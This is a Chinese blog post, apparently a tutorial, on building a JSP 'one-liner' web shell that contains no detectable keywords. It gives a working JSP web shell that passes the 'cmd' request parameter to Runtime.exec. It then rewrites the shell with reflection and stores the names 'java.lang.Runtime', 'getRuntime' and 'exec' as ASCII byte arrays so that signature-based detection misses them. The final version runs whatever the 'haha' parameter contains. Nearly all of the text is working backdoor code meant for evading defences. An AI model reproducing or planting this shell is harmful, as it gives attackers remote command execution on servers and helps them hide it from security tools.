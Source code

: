 ```yaml
---
title: jsp无关键字一句话
date: 2022-05-16 20:23:20
tags:
      - 一句话
categrious: java
---
```

## jsp无关键字一句话
通过ascii码与字符之间的转换,加上通过反射加载类,实现无关键字一句话

#### py脚本`script_str2ascii`

首先写一个简单的py脚本,转换命令为byte数组

```python
cmd=input("input code")
arr=[]
for char in cmd:
    arr.append(ord(char))
print(arr)
```

#### 开始

接下来找一个简单的小马,进行改造

```jsp
<%
    String cmd = request.getParameter("cmd");
    StringBuffer res = new StringBuffer();
    //加一个系统的判断
    String os = System.getProperty("os.name");
    boolean isWin = false;
    BufferedReader bufferedReader;
    if (os != null && os.toLowerCase().startsWith("windows")) {
        isWin = true;
    }
    try {
        if (isWin == false) {
            bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
        } else {
            bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec("cmd /C " + cmd).getInputStream()));
        }

        String len;
        while ((len = bufferedReader.readLine()) != null) {
            res.append(len + "\n");
        }

    } catch (Exception e) {
        res.append(e.getMessage());

    }
   out.print("<pre>" + res.toString() + "</pre>");
%>

```

#### 通过反射改变获取类并执行的方式

主要目的是将runtime相关的类和函数通过反射进行修改

```jsp
<%Class<?> aClass = Class.forName("java.lang.Runtime");//这个forName加载类的时候会执行类内的静态代码块
    Method method = aClass.getMethod("getRuntime");
    Object o = method.invoke(null);//这里获取到runtime类
    Method method1 = aClass.getMethod("exec", String.class);
    method1.invoke(o,"calc");
%>
```

通过反射加载runtime类的方式可行,并且成功弹出了计算器

接下来通过ascii数组,替换其中比较敏感的字符串

上面那个小马里面别的不关键的东西懒得写了.....

**这里可以使用byte数组,原因是当前涉及到的字符串中的所有字符ascii码均在127以下**

#### 加入byte数组

通过byte数组修饰以下关键字

```java
<%
    byte[] a={106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101};
    Class<?> aClass = Class.forName(new String(a));//这个forName加载类的时候会执行类内的静态代码块
    byte[] b={103, 101, 116, 82, 117, 110, 116, 105, 109, 101};
    Method method = aClass.getMethod(new String(b));
    Object o = method.invoke(null);//这里获取到runtime类
    byte[] c={101, 120, 101, 99};
    Method method1 = aClass.getMethod(new String(c), String.class);
    method1.invoke(o,request.getParameter("haha"));
%>
```


